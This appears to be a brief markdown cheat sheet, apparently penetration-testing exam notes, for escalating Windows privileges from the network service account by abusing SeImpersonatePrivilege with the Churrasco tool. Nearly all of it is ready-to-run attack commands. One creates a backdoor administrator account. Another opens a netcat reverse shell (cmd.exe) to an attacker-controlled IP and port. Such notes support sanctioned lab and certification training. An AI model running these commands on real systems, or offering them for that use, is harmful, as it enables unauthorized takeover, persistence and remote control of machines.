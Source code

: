 ### Privilage escalation for *nt authority\network service*
```
c:> whoami
whoami
nt authority\network service
```
### Check /priv
```
c:> whoami /priv
whoami /priv

check for SeImpersonatePrivilage is Enabled
```

### Upload *churrasco.exe*
- (churrasco.exe)[https://github.com/Re4son/Churrasco]

### Use *add user to localgroup Administrator*
```
churrasco.bin "net user oscp oscp /add && net localgroup Administrators oscp /add"
```

### Use *nc connection*
```
churrasco.exe "nc.exe <your_machine_ip> <your_machine_port> -e cmd.exe"
```
